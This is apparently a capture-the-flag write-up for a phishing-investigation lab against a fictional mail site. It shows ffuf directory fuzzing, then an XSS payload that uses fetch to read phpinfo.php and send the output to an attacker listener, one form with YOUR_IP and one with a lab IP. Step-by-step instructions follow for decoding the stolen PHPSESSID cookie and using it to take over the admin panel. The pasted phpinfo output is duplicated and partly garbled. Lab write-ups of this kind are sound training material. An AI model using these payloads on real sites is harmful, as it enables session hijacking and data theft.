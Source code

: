 #+title: Carp
#+author: gabriel

* intro
An exciting mission awaits you!

We have received a security notification from one of the companies we provide services for that there has been a phishing attack against the company. We only have the phishing email sent by the attackers. We need to identify who the attackers are and which employees' information was stolen.

We are looking for your help in conducting this investigation. We trust you to complete the task in the best way possible!

Good luck!

---

Email content:

Hello,

We would like to share an important matter regarding your account. The IT department at our company has detected abnormal activity on your account. In order to ensure the security of your account, please complete the verification process by logging into your account via the link below: <TARGET_LINK>

You have 24 hours for this verification process. If you do not complete the verification process within the specified period, your account will be temporarily frozen.

If you have any questions or concerns, you can contact our IT support team.

Best regards,

IT Unit

* initial scan
#+begin_src sh
[0:15][]~ ✮ ffuf -u "http://officemailcentral.hv/FUZZ" -w /usr/share/wordlists/SecLists/Discovery/
Web-Content/raft-large-directories.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://officemailcentral.hv/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-direct
ories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 329, Words: 20, Lines: 10, Duration: 217ms]
database                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 216ms]
webadmin                [Status: 301, Size: 331, Words: 20, Lines: 10, Duration: 217ms]
server-status           [Status: 403, Size: 285, Words: 20, Lines: 10, Duration: 224ms]
#+end_src

: /database/connect.php


* hint to solve
#+begin_src sh
You need to create a payload that uses fetch to steal cookies by deleting the email type value on the target machine. You need to base64 decode the incoming cookie and add it to the login page
You can try the following payload:
<script>fetch("http://officemailcentral.hv/phpinfo.php",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("http://YOUR_IP/?data="+btoa(d)));</script>
Encaminhada
Let me walk you through the steps in a clearer way:
1-When you open the website, you’ll first see the email and password validation.
2-Open the developer tools, locate the email input, and remove the type="email" attribute (or simply change it to text).
3-Inject a fetch payload that will capture the session cookie.
4-On your machine, start a simple Python listener on a chosen port.
5-Once the payload runs, you’ll receive data that looks like Base64. Decode it to reveal the session cookie.
6-Use the “EditThisCookie” browser extension to import that cookie into the login page.
7-Finally, refresh the page, you should now be inside the admin panel.
#+end_src

*With this payload I am receiving the data via LOG from the platform's VPN, it is not reaching my Python server directly.* ->
: <script>fetch("http://officemailcentral.hv/phpinfo.php",{credentials:"include"}).then(r=>r.text()).then(d=>fetch("http://10.8.58.60:7777/?data="+btoa(d)));</script>

*long base64 string decoded* ->
#+begin_src sh
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px rgba(0, 0, 0, 0.2);}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
h2 a:link, h2 a:visited{color: inherit; background: inherit;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
:root {--php-dark-grey: #333; --php-dark-blue: #4F5B93; --php-medium-blue: #8892BF; --php-light-blue: #E2E4EF; --php-accent-purple: #793862}@media (prefers-color-scheme: dark) {
  body {background: var(--php-dark-grey); color: var(--php-light-blue)}
  .h td, td.e, th {border-color: #606A90}
  td {border-color: #505153}
  .e {background-color: #404A77}
  .h {background-color: var(--php-dark-blue)}
  .v {background-color: var(--php-dark-grey)}
  hr {background-color: #505153}
}
</style>
<title>PHP 8.2.7 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<h2>PHP Variables</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">$_COOKIE['PHPSESSID']</td><td class="v">c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['HTTP_HOST']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['HTTP_CONNECTION']</td><td class="v">keep-alive</td></tr>
<tr><td class="e">$_SERVER['HTTP_USER_AGENT']</td><td class="v">Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/100.0.4896.75 Safari/537.36</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT']</td><td class="v">*/*</td></tr>
<tr><td class="e">$_SERVER['HTTP_REFERER']</td><td class="v">http://officemailcentral.hv/webadmin/</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_ENCODING']</td><td class="v">gzip, deflate</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_LANGUAGE']</td><td class="v">en-US</td></tr>
<tr><td class="e">$_SERVER['HTTP_COOKIE']</td><td class="v">PHPSESSID=c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_SERVER['SERVER_SIGNATURE']</td><td class="v">&lt;address&gt;Apache/2.4.56 (Debian) Server at officemailcentral.hv Port 80&lt;/address&gt;
</td></tr>
<tr><td class="e">$_SERVER['SERVER_SOFTWARE']</td><td class="v">Apache/2.4.56 (Debian)</td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['SERVER_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['REMOTE_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_SERVER['CONTEXT_PREFIX']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['CONTEXT_DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADMIN']</td><td class="v">webmaster@localhost</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REMOTE_PORT']</td><td class="v">60228</td></tr>
<tr><td class="e">$_SERVER['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_SERVER['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_SERVER['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_SERVER['QUERY_STRING']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['REQUEST_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['PHP_SELF']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME_FLOAT']</td><td class="v">1760121153.357</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME']</td><td class="v">1760121153</td></tr>
</table>
<E html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml"><head>
<style type="text/css">
body {background-color: #fff; color: #222; font-family: sans-serif;}
pre {margin: 0; font-family: monospace;}
a:link {color: #009; text-decoration: none; background-color: #fff;}
a:hover {text-decoration: underline;}
table {border-collapse: collapse; border: 0; width: 934px; box-shadow: 1px 2px 3px rgba(0, 0, 0, 0.2);}
.center {text-align: center;}
.center table {margin: 1em auto; text-align: left;}
.center th {text-align: center !important;}
td, th {border: 1px solid #666; font-size: 75%; vertical-align: baseline; padding: 4px 5px;}
th {position: sticky; top: 0; background: inherit;}
h1 {font-size: 150%;}
h2 {font-size: 125%;}
h2 a:link, h2 a:visited{color: inherit; background: inherit;}
.p {text-align: left;}
.e {background-color: #ccf; width: 300px; font-weight: bold;}
.h {background-color: #99c; font-weight: bold;}
.v {background-color: #ddd; max-width: 300px; overflow-x: auto; word-wrap: break-word;}
.v i {color: #999;}
img {float: right; border: 0;}
hr {width: 934px; background-color: #ccc; border: 0; height: 1px;}
:root {--php-dark-grey: #333; --php-dark-blue: #4F5B93; --php-medium-blue: #8892BF; --php-light-blue: #E2E4EF; --php-accent-purple: #793862}@media (prefers-color-scheme: dark) {
  body {background: var(--php-dark-grey); color: var(--php-light-blue)}
  .h td, td.e, th {border-color: #606A90}
  td {border-color: #505153}
  .e {background-color: #404A77}
  .h {background-color: var(--php-dark-blue)}
  .v {background-color: var(--php-dark-grey)}
  hr {background-color: #505153}
}
</style>
<title>PHP 8.2.7 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
<body><div class="center">
<h2>PHP Variables</h2>
<table>
<tr class="h"><th>Variable</th><th>Value</th></tr>
<tr><td class="e">$_COOKIE['PHPSESSID']</td><td class="v">c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['HTTP_HOST']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['HTTP_CONNECTION']</td><td class="v">keep-alive</td></tr>
<tr><td class="e">$_SERVER['HTTP_USER_AGENT']</td><td class="v">Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/100.0.4896.75 Safari/537.36</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT']</td><td class="v">*/*</td></tr>
<tr><td class="e">$_SERVER['HTTP_REFERER']</td><td class="v">http://officemailcentral.hv/webadmin/</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_ENCODING']</td><td class="v">gzip, deflate</td></tr>
<tr><td class="e">$_SERVER['HTTP_ACCEPT_LANGUAGE']</td><td class="v">en-US</td></tr>
<tr><td class="e">$_SERVER['HTTP_COOKIE']</td><td class="v">PHPSESSID=c15qvl53vgb3srkv1pem7q6kl7</td></tr>
<tr><td class="e">$_SERVER['PATH']</td><td class="v">/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</td></tr>
<tr><td class="e">$_SERVER['SERVER_SIGNATURE']</td><td class="v">&lt;address&gt;Apache/2.4.56 (Debian) Server at officemailcentral.hv Port 80&lt;/address&gt;
</td></tr>
<tr><td class="e">$_SERVER['SERVER_SOFTWARE']</td><td class="v">Apache/2.4.56 (Debian)</td></tr>
<tr><td class="e">$_SERVER['SERVER_NAME']</td><td class="v">officemailcentral.hv</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['SERVER_PORT']</td><td class="v">80</td></tr>
<tr><td class="e">$_SERVER['REMOTE_ADDR']</td><td class="v">172.20.45.148</td></tr>
<tr><td class="e">$_SERVER['DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['REQUEST_SCHEME']</td><td class="v">http</td></tr>
<tr><td class="e">$_SERVER['CONTEXT_PREFIX']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['CONTEXT_DOCUMENT_ROOT']</td><td class="v">/var/www/html</td></tr>
<tr><td class="e">$_SERVER['SERVER_ADMIN']</td><td class="v">webmaster@localhost</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_FILENAME']</td><td class="v">/var/www/html/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REMOTE_PORT']</td><td class="v">52322</td></tr>
<tr><td class="e">$_SERVER['GATEWAY_INTERFACE']</td><td class="v">CGI/1.1</td></tr>
<tr><td class="e">$_SERVER['SERVER_PROTOCOL']</td><td class="v">HTTP/1.1</td></tr>
<tr><td class="e">$_SERVER['REQUEST_METHOD']</td><td class="v">GET</td></tr>
<tr><td class="e">$_SERVER['QUERY_STRING']</td><td class="v"><i>no value</i></td></tr>
<tr><td class="e">$_SERVER['REQUEST_URI']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['SCRIPT_NAME']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['PHP_SELF']</td><td class="v">/phpinfo.php</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME_FLOAT']</td><td class="v">1760121163.497</td></tr>
<tr><td class="e">$_SERVER['REQUEST_TIME']</td><td class="v">1760121163</td></tr>
</table>
</div></body></html>
#+end_src

*PHPSESSID* ->
: c15qvl53vgb3srkv1pem7q6kl7

With the cookie is possible to bypass the */webadmin* login form ->
#+begin_src sh
GET /webadmin/ HTTP/1.1
Host: officemailcentral.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8vlibvh4mejfodifm81iau1h8k
Connection: keep-alive
#+end_src


All the exam questions can be found after that cookie hijacking
